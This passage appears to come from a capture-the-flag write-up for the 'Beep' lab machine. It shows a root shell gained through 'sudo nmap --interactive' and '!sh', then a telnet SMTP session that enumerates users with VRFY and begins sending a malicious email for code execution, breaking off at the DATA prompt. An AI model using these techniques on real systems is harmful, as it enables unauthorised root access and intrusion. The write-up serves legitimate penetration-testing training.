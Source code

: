 ### `Privilege Escalation`

Simply running `sudo -l` gave me a list of commands i was able to run without password.
```
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> id
id
Unknown command (id) -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

Using Nmap --interactive, I switch my `asterisk` shell into `root` shell.

### `RCE through SMTP`
We notice one of the way to telnet to the box using port 25. I was able to enumerate the user but got lost track when I found LFI. I had one of the thing I wanted to try out which is RCE through SMTP.
Using Telnet I first send a malicious email to the valid user
```
# telnet beep.htb 25
Trying 10.10.10.7...
Connected to beep.htb.
Escape character is '^]'.
220 beep.localdomain ESMTP Postfix
vrfy asterisk
252 2.0.0 asterisk
mail from: pawn@htb.com
250 2.1.0 Ok
rcpt to: asterisk@localhost
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
```